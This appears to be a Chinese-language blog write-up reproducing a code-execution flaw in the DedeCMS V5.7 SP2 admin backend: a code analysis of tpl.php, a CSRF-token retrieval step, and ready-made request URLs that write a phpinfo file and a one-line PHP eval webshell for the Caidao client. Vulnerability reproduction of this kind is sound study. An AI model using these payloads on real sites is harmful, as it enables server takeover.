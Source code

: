 ```yaml
---
title: dedecms V5.7-UTF-8-SP2 命令执行漏洞复现
date: 2019-07-23 19:20:00
author: dylan
top: false
cover: false
password: 
categories: Information Security
tags: 
    - 漏洞
    - 复现
    - dedecms
---
```

# 一、漏洞详情
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724101304.png)

***
# 二、漏洞分析
环境搭建这里不再赘述，搭建好后访问网站主页
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102343.png)

dedecms默认的后台是/dede,没有修改直接访问登陆
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102453.png)

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724102828.png)

**代码分析**
```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了
```
根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

***
# 三 、漏洞复现
获取token，访问 域名 + /dede/tpl.php?action=upload
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104103.png)
然后查看网页源代码，找到token
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104145.png)
构造payload如下
http://192.168.159.130/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)
访问了成功写入
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104653.png)
访问写入的文件，域名+include/taglib/（你上传的文件名）.lib.php
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724104810.png)
也可以构造一句话木马payload，http://192.168.159.130/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929
直接用菜刀连接
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190724105245.png)

***
# 四、总结
虽然这个漏洞很鸡肋，需要拿到管理员账号密码才行，但还是有必要复现了解，反复练习才能有进步。

***
# 参考文章
[国家信息安全漏洞共享平台](https://www.cnvd.org.cn/flaw/show/CNVD-2018-01221)
[dedeCMS后台代码执行漏洞-CNVD-2018-01221](https://blog.csdn.net/qq_41954384/article/details/93057317)